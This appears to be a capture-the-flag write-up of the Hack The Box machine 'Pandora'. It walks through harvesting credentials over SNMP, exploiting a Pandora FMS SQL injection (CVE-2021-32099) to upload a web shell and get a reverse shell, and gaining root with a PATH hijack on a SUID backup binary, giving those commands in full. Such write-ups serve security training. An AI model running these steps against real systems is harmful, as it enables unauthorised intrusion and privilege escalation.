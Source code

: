 # Pandora

## Gaining Access

Nmap scan results:

<figure><img src="../../../.gitbook/assets/image (1731).png" alt=""><figcaption></figcaption></figure>

### Port 80

The website was some form of corporate website.&#x20;

<figure><img src="../../../.gitbook/assets/image (146).png" alt=""><figcaption></figcaption></figure>

However, checking for directories or other web exploits was rather unsuccessful, as I did not find anything of use.&#x20;

### SNMP

Because we couldn't find anything with the TCP ports, we could enumerate the UDP ports and hopefully find something:

```
$ sudo nmap -sU -top-ports=100 panda.htb
Starting Nmap 7.80 ( https://nmap.org ) at 2022-03-28 06:00 EDT
Nmap scan report for panda.htb (10.10.11.136)
Host is up (0.089s latency).
Not shown: 99 closed ports
PORT    STATE SERVICE
161/udp open  snmp

Nmap done: 1 IP address (1 host up) scanned in 95.71 seconds
```

So port 161 for SNMP was open. We can then use `snmpwalk` to enumerate this further.

<figure><img src="../../../.gitbook/assets/image (1570).png" alt=""><figcaption></figcaption></figure>

Redirecting this output to a file, I was able to find some credentials within the contents:

<figure><img src="../../../.gitbook/assets/image (1644).png" alt=""><figcaption></figcaption></figure>

With these credentials, we can SSH in as the `daniel` user.

## Privilege Escalation

### Pandora FMS

As Daniel, we didn't have much permissions over the machine. However, we were able to head to the `/var/www/pandora` directory to find another potential website that was up:

<figure><img src="../../../.gitbook/assets/image (2912).png" alt=""><figcaption></figcaption></figure>

Checking the apache2 config files reveals that the user `matt` was running the other web server:

<figure><img src="../../../.gitbook/assets/image (2522).png" alt=""><figcaption></figcaption></figure>

So, I started an SSH tunnel using the credentials for `daniel`, and we can forward port 80 to our machine.

```bash
ssh -L 4444:127.0.0.1:80 daniel@pandora.htb
```

<figure><img src="../../../.gitbook/assets/image (4056).png" alt=""><figcaption></figcaption></figure>

### Upgrade Session

We can enumerate from the machine that this was a Pandora FMS instance.

<figure><img src="../../../.gitbook/assets/image (3472).png" alt=""><figcaption></figcaption></figure>

Pandora FMS was vulnerable to many types of exploits, one of which was CVE-2021-32099, which would leverage SQL Inejction on the `/include/chart_generator.php` endpoint to bypass authentication and allow attackers to login as the admin.

{% embed url="https://github.com/ibnuuby/CVE-2021-32099" %}

Then, we would gain access to the Pandora Dashboard.

<figure><img src="../../../.gitbook/assets/image (2092).png" alt=""><figcaption></figcaption></figure>

### RCE as Matt

I did more research and found this repository, which allowed us to make use of the SQL Injection to upload any web shell of our choosing to the server:

<figure><img src="../../../.gitbook/assets/image (3334).png" alt=""><figcaption></figcaption></figure>

Then, we can gain a reverse shell via a Python3 shell.

<figure><img src="../../../.gitbook/assets/image (3216).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (2590).png" alt=""><figcaption></figcaption></figure>

### Exploiting PATH&#x20;

I ran another LinPEAS as `matt`, and found that the root user was running some processes.

<figure><img src="../../../.gitbook/assets/image (838).png" alt=""><figcaption></figcaption></figure>

I also found this one SUID binary called `pandora_backup`.

```bash
$ find / -perm -4000 -ls 2>/dev/null
   264644    164 -rwsr-xr-x   1 root     root       166056 Jan 19  2021 /usr/bin/sudo
   265010     32 -rwsr-xr-x   1 root     root        31032 May 26  2021 /usr/bin/pkexec
   267386     84 -rwsr-xr-x   1 root     root        85064 Jul 14  2021 /usr/bin/chfn
   262764     44 -rwsr-xr-x   1 root     root        44784 Jul 14  2021 /usr/bin/newgrp
   267389     88 -rwsr-xr-x   1 root     root        88464 Jul 14  2021 /usr/bin/gpasswd
   264713     40 -rwsr-xr-x   1 root     root        39144 Jul 21  2020 /usr/bin/umount
   262929     20 -rwsr-x---   1 root     matt        16816 Dec  3 15:58 /usr/bin/pandora_backup
```

Running `pandora_backup` would call `tar` as per the process we found. The fact that `tar` did not use the absolute path means that we can create our own malicious `tar` script that would give us RCE as root because an SUID binary was in use here.

We can run these commands for a shell:

```bash
cp /bin/bash tar
chmod 777 tar
export PATH=$(pwd).$PATH
pandora_backup
```

<figure><img src="../../../.gitbook/assets/image (3541).png" alt=""><figcaption></figcaption></figure>
